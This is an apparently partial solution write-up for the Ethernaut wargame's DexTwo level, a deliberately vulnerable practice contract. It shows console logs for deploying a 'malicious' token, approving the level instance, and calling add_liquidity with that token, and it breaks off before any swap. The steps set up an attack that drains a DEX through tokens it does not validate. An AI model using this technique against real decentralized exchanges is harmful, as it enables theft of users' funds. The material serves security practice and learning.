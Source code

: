 ## Ethernaut-solution

### 23. DexTwo


//Malicious Token contractをdeploy 
```
[block:10968868 txIndex:4]from: 0xF6e...f30F5to: EvilToken.(constructor)value: 0 weidata: 0x608...f0033logs: 1hash: 0x7b8...3e3df
```

//check totalSupply
```
0:uint256: 1000000000000000000000000
```

//Developed Contracts approve of spender by address of Ethernaut instanceとamount 10_000_000
```
[block:10968896 txIndex:2]from: 0xF6e...f30F5to: EvilToken.approve(address,uint256) 0xbdC...836f1value: 0 weidata: 0x095...89680logs: 1hash: 0x1de...33b6e
```

//copy MaliciousToken Address from Deployed Contract
```
>MAL = "0xbdCfa3f90d610491445b096AB4c6f474Dbc836f1"
'0xbdCfa3f90d610491445b096AB4c6f474Dbc836f1'
```
```
>await contract.add_liquidity(MAL, 100)
```